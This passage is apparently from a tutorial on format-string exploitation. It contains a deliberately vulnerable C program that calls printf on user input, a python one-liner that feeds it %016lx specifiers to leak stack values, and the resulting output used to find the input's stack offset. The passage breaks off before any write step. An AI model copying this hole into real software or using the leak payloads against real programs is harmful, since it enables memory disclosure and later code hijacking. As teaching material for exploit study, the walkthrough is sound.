 ```%s``` will print string variable, it means that the second variable will be
    printf("         OK, you win!\n");
    printf("==============WIN===============\n");
}

int main() {
    char name[512];
    char msg[512];
    char task[512];
    int decision = 0;
    strcpy(msg, "Welcome %s!...\n");
    printf("Give me your name:\n");
    scanf("%s", name);
    printf(msg, name);
    printf("Now tell me what to do:\n");
    scanf("%s", task);
    printf("OK! I am on it.\n  -------ToDo-------\n");
    printf(task);
    printf("\n  -------ToDo-------\n");

    if(decision)
        win();
    return 0;
}
```
First, we want to print program output for the specially prepared string. What
is in this special string? First, we want to have simply recognizable bytes,
for example, "AAAABBBB". In little endian, it would be 42424242414141.
Yes, you should know about little/big endian. If not, you would have problems
with understanding what you see in gdb or program output. Next, we want to use
```%x``` to show what is on the stack. In this case, I have a 64-bit program so
I would use ```%lx``` format string to print all 8 bytes placed on the stack.

Printing value may be somewhat unclear, as the stack has different values 
every run. So for better alignment and, what is more important, to keep a steady
amount of chars printed on the screen (useful for the usage of %n) I use 
```%016lx``` - it prints 8 bytes hex values padded to full 16 characters. 
A few tries show me that my string lays deep into the stack.

This is what I've got:

```sh
$ python3 -c \
   "print('Bob\nAAAABBBB'+''.join([f'-{i+128}.%{i+128}\$016lx' for i in range(32)])+'\n')"\
   | ./buggy
Give me your name:
Welcome Bob!...
Now tell me what to do:
OK! I am on it.
  -------ToDo-------
AAAABBBB-128.0000000000000000-129.00007f64ff3a2170-130.00007f64ff3a2170-
131.00007f64ff191bb8-132.00007fff65a5aea0-133.00007f64ff17d4d7-134.0000000000000000-
135.0000000000000000-136.4242424241414141-137.3231252e3832312d-138.2d786c3631302438-
139.393231252e393231-140.312d786c36313024-141.24303331252e3033-142.33312d786c363130-
143.3024313331252e31-144.3233312d786c3631-145.313024323331252e-146.2e3333312d786c36-
147.3631302433333125-148.252e3433312d786c-149.6c36313024343331-150.31252e3533312d78-
151.786c363130243533-152.3331252e3633312d-153.2d786c3631302436-154.373331252e373331-
155.312d786c36313024-156.24383331252e3833-157.33312d786c363130-158.3024393331252e39-
159.3034312d786c3631
  -------ToDo-------
```
From program output, we can deduce that our string is a 136th argument on
the stack. Let's check this with unique "DEADBEEF" (4645454244454144):
